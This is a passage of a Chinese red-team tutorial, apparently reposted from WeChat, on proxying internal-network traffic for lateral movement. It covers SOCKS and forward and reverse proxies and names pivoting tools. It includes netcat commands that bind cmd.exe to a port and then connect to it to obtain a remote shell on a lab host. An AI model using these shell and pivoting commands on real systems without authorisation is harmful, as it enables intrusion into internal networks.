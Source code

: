 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/ma8ROHh1_giS4Yn13DEr-A)

利用代理工具将内网的流量代理到本地进行访问，这样就可以对内网进行下一步渗透，同时也可以利用代理工具将其他网段的流量转发到本地进行纵向渗透。代理的本质是 Socks 协议 (防火墙安全会话转换协议)，工作在 OSI 参考模型的第 5 层（会话层）。使用 TCP 协议传输数据，因而不提供如传递 ICMP 信息之类的网络层相关服务。目前支持 SOCKS4 和 SOCKS5 两个版本：  

*   SOCKS4 支持 TELNET、FTP、HTTP 等 TCP 协议；
    
*   SOCKS5 支持 TCP 与 UDP，并支持安全认证方案  
    

* * *

  
代理一般分为正向代理和反向代理两类：

正向代理：已控服务器监听端口，通过这个端口形成一个正向的隧道，由代理机器代替主机去访问内网目标。但是内网入口一般处于 DMZ 区域有防火墙拦截，无法直接进入内网环境。  

反向代理：由内网主机主动交出权限到代理机器，然后本地去连接形成反向代理。例如：VPS 监听本地端口，已控内网服务器来连接此端口，形成一个隧道。如果内网设备连接外网，就无法回弹只能再想其他办法。  

*   端口转发工具：NC、LCX、regGorg、venom、ngrock…
    
*   代理链工具：proxychains（Linux）、proxifier(windows)...
    
    * * *
    

**一、端口代理工具  
****  
1.LCX**

LCX 的使用方法传送门：**[【红队技能】Hash 读取与端口转发](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247487442&idx=1&sn=eaa8bbffd318c290ffd93917346f8e06&chksm=ea37f088dd40799ef6cda27c36ace8812a1ecd656ade4d3d31c833c7d5b1dad95724f0eef6d9&scene=21#wechat_redirect)  
**

**2.NetCat**

NetCat，简称 NC。除开端口转发以下还对 NC 的端口探测、文件传输、通信功能做了简单的演示。NetCat 官方地址：

```
http://netcat.sourceforge.net/
```

### **2.1 端口转发**

正向连接场景：目标防火墙不阻止外来流量。绑定本地的 cmdshell 在服务器的端口上然后本地去连接：  

①服务器 (192.168.1.98) 执行命令将 cmdshell 绑定在本地 5555 端口上

```
nc -l -p 5555 -t -e cmd.exe
# -t是通过telnet模式执行 cmd.exe 程序，可省略
```

②在内网主动连接服务器的 5555 端口，可直接获取目标的 cmdshell  

```
nc -nvv 192.168.1.98 5555
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbL0D0ibWbx5icuXgofmKicgS0Lwsq6dW4icoUmOkRaNPfBx9EylUYwib6tic9yd0VwTlTUu7vsUKAc77bQ/640?wx_fmt=png)  

